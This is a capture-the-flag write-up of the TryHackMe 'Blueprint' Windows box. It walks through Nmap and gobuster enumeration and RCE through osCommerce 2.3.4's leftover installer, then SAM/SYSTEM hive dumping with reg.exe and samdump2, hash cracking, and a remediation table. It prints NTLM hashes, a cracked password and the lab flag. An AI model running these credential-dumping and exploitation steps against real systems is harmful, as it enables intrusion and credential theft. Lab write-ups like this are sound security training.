








# Blueprint — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.67.161.23 | **Attacker IP:** 192.168.146.25

## Machine info


## Summary

**Blueprint** is a Windows 7 box whose only real way in is an outdated osCommerce 2.3.4 installation left exposed on port 8080. The installation wizard was never removed after deployment, and a public exploit against it grants remote code execution directly as `nt authority\system` — the web service runs with full system privileges, so there is no separate privilege-escalation stage. Saving the SYSTEM and SAM hives into that same web-served directory reuses the original directory-listing misconfiguration, making them downloadable over HTTP and exposing a weak local account password.

**Attack chain:** Nmap recon → web enumeration finds osCommerce 2.3.4 with its `/install/` wizard still live → searchsploit finds a public RCE exploit → RCE as `nt authority\system` → SYSTEM/SAM hives dumped and exposed via directory listing → `Lab` hash cracked → root flag captured

## 1. Reconnaissance

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.67.161.23

PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 126 Microsoft IIS httpd 7.5
|_http-title: 404 - File or directory not found.
135/tcp   open  msrpc        syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 126 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack ttl 126 Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
445/tcp   open  microsoft-ds syn-ack ttl 126 Windows 7 Home Basic 7601 Service Pack 1 (workgroup: WORKGROUP)
3306/tcp  open  mysql        syn-ack ttl 126 MariaDB 10.3.23 or earlier (unauthorized)
8080/tcp  open  http         syn-ack ttl 126 Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-ls: Volume /
| -     2019-04-11 22:52  oscommerce-2.3.4/
49152-49165/tcp open msrpc  Microsoft Windows RPC

smb-os-discovery:
  OS: Windows 7 Home Basic 7601 Service Pack 1
  Computer name: BLUEPRINT
  Workgroup: WORKGROUP
```

Port 8080 serves an `oscommerce-2.3.4/` tree with directory listing enabled, which is the lead worth chasing. Browsing to it confirms a live osCommerce Online Merchant v2.3.4 storefront:



## 2. Web Enumeration

```
gobuster dir -u http://10.67.161.23:8080/oscommerce-2.3.4/catalog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

images               (Status: 301)
download             (Status: 401)
admin                (Status: 301)
includes              (Status: 301)
install               (Status: 301)
ext                   (Status: 301)
```

Browsing to `catalog/admin/` shows osCommerce's Administrator Login page:



The real finding is **`catalog/install/`**: the installation wizard was never removed after deployment and is still live, offering to walk through a fresh install against the production database:

```
http://10.67.161.23:8080/oscommerce-2.3.4/catalog/install/
```



## 3. Remote Code Execution via osCommerce Installer

```
searchsploit oscommerce 2.3.4

osCommerce 2.3.4 - Multiple Vulnerabilities              | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection             | php/webapps/46328.txt
osCommerce 2.3.4.1 - Arbitrary File Upload                | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution                | php/webapps/44374.py
osCommerce 2.3.4.1 - Remote Code Execution (2)             | php/webapps/50128.py
```

Exploit **50128.py** targets the exposed install directory directly, landing code execution as **`nt authority\system`**:



A clean `whoami` confirms it:



The web server process runs with full system privileges, so there is no separate privilege-escalation stage on this box.

## 4. SYSTEM & SAM Hive Dump

With a SYSTEM shell in hand, the local SAM database was dumped for completeness, since this level of access already allows reading it directly:

```
RCE_SHELL$ reg.exe save hklm\system SYSTEM
RCE_SHELL$ reg.exe save hklm\sam Sam
```

The hives were saved inside the web-served directory (`catalog/install/includes`), so `SYSTEM` and `Sam` briefly became downloadable over HTTP through the same directory-listing misconfiguration that enabled the initial RCE:



Both files were pulled down and the hashes extracted locally:

```
samdump2 SYSTEM Sam
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
```

## 5. Hash Cracking & Flag Capture

The `Lab` account's NTLM hash cracked instantly to `googleplus` on CrackStation — a weak, dictionary-level password:



Flag retrieved from the Administrator's desktop:



**Flag:** `THM{aea1e3ce6fe7f89e10cea833ae009bee}`

## Root Cause & Remediation

| Issue | Fix |
|---|---|
| osCommerce `install/` directory left reachable after deployment, enabling unauthenticated RCE | Always delete the installer directory after setup; never leave it web-accessible |
| Web service (Apache/PHP) running with `nt authority\system` privileges | Run web services under a dedicated low-privilege service account, never SYSTEM |
| Directory listing enabled on the webroot, exposing the full osCommerce tree and later the dumped hives | Disable directory listing (`Options -Indexes`) on all production vhosts |
| Local `Lab` account used a weak, dictionary-crackable password | Enforce a strong password policy on all local accounts, including auxiliary/lab accounts |
